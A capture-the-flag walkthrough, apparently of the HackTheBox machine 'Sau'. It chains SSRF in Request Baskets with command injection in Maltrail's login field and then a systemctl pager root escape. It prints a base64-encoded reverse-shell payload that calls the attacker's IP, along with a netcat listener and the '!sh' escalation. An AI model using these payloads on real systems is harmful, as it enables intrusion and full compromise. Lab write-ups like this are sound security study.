



## Reconnaissance

### Port Scanning
I started with a full TCP scan to identify every exposed service.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ sudo nmap -sC -sV -p- -T4 --min-rate 1000 --reason 10.129.55.7 -oN nmap/tcp_scan.nmap 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-30 17:48 CET
Nmap scan report for 10.129.55.7
Host is up, received reset ttl 63 (0.14s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     http    syn-ack ttl 63 Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 30 Aug 2026 16:49:35 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 30 Aug 2026 16:49:18 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 30 Aug 2026 16:49:19 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.95%I=7%D=8/30%Time=6A945F26%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Aug\x20
SF:2026\x2016:49:18\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Aug\x20
SF:2026\x2016:49:19\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nDate:\x20Sun,\x2030\x20Aug\x202026\x2
SF:016:49:35\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20n
SF:ame;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\
SF:-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeScan
SF:,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Host
SF:\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20Ho
SF:st\x20header");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.63 seconds
```

## Exploitation

### SSRF in Request Baskets

the scan revealed important information as we can see we have 2 open ports and 2 filtered ports.<br>
My next move was to check what is running on port 55555 so I opened the URL in my browser.



before looking for anything I started testing for common things when I found soemting that accepts urls the first things that<br>
comes to my mind is ssrf . After creating a basket and clicking on the settings button I found this 


The **Forward URL** field controls where the basket forwards incoming requests, effectively acting as a proxy. To verify this behavior, I started a local Python HTTP server, entered its URL, enabled **Proxy Response**, and sent a request to the basket.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ curl http://10.129.55.7:55555/p0o77bz
<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
```

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.55.7 - - [30/Aug/2026 18:11:46] code 404, message File not found
10.129.55.7 - - [30/Aug/2026 18:11:46] "GET /test HTTP/1.1" 404 -
```

and we got a hit on our server so we can confirm that the application is vulnerable to ssrf. 

### CVE-2023-27163

After that i find out that this is **CVE-2023-27163** 

>**Description:**
>request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

you can read more about it [here](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)

### Exploiting CVE-2023-27163

## Shell as `puma`

The confirmed SSRF can reach services that are inaccessible externally, including the filtered service on port `80`. I created another basket, set its **Forward URL** to `http://127.0.0.1`, enabled **Proxy Response**, and saved the returned HTML.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ curl http://10.129.55.7:55555/p0o77bz > index.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7091    0  7091    0     0  22100      0 --:--:-- --:--:-- --:--:-- 22159
```
Then I opened the file in the browser and found a Maltrail (v0.53) instance running on port 80.<br>


A simple google search showed that this version is vulnerable to command injection in the **/login** endpoint in the **username** field.<br>
I changed the **Forward URL** to `http://127.0.0.1/login` and sent a POST request through the basket. To test the login endpoint for blind command injection, I injected a `sleep` command into the username field and measured the response time.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ time curl http://10.129.55.7:55555/p0o77bz --data "username=test"
Login failed
real	0m5.441s
user	0m0.003s
sys	0m0.009s
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ time curl http://10.129.55.7:55555/p0o77bz --data "username=;`sleep 10`#"
Login failed
real	0m15.302s
user	0m0.007s
sys	0m0.011s
```

And jackpot—it seems to be working. Now we can get a reverse shell by sending a payload in the username field. I used the following payload to get a reverse shell.

```text
username=test;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjQ3LzQ0NDQgMD4mMQ==| base64 -d | bash`
```

and we got a reverse shell as user **puma**.
```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Sau]
└──╼ $ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.55.7 47238
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
puma@sau:/opt/maltrail$ 
```

## Privilege Escalation

after gaining shell I checked the sudo privileges 
```bash
puma@sau:~$ sudo -l 
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
We can run it as root without password. Then I checked the systemctl version.
```bash
puma@sau:~$ systemctl --version 
systemd 245 (245.4-4ubuntu3.22)
```

### CVE-2023-26604
After some research, I found out that this version is vulnerable to **CVE-2023-26604**.

>**Description:**
>systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

you can read more about it [here](https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

In simple terms, since the feature uses the **less** pager to log the output of `systemctl status` instead of `cat`, and since we can run commands with `less`, we can get a root shell by running the following command.

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2026-08-30 16:46:17 UTC; 1h 16min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 880 (python3)
      Tasks: 11 (limit: 4662)
     Memory: 257.9M
     CGroup: /system.slice/trail.service
             ├─ 880 /usr/bin/python3 server.py
             ├─1272 /bin/sh -c logger -p auth.info -t "maltrail[880]" "Failed password for test;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjQ3LzQ0NDQgMD4mMQ==| base64 -d | bash` fro>
             ├─1273 /bin/sh -c logger -p auth.info -t "maltrail[880]" "Failed password for test;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjQ3LzQ0NDQgMD4mMQ==| base64 -d | bash` fro>
             ├─1276 bash
             ├─1277 /bin/bash -i
             ├─1290 python3 -c import pty;pty.spawn('/bin/bash')
             ├─1291 /bin/bash
             ├─1405 sudo /usr/bin/systemctl status trail.service
             ├─1406 /usr/bin/systemctl status trail.service
             └─1407 pager

Aug 30 17:50:59 sau sudo[1322]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Aug 30 17:50:59 sau sudo[1322]: pam_unix(sudo:session): session opened for user root by (uid=0)
Aug 30 17:52:15 sau sudo[1356]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Aug 30 17:52:15 sau sudo[1356]: pam_unix(sudo:session): session opened for user root by (uid=0)
Aug 30 17:52:36 sau sudo[1356]: pam_unix(sudo:session): session closed for user root
Aug 30 17:55:53 sau sudo[1397]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Aug 30 17:55:53 sau sudo[1397]: pam_unix(sudo:session): session opened for user root by (uid=0)
Aug 30 17:56:13 sau sudo[1397]: pam_unix(sudo:session): session closed for user root
Aug 30 18:02:38 sau sudo[1405]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Aug 30 18:02:38 sau sudo[1405]: pam_unix(sudo:session): session opened for user root by (uid=0)
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```


And that's it for this machine 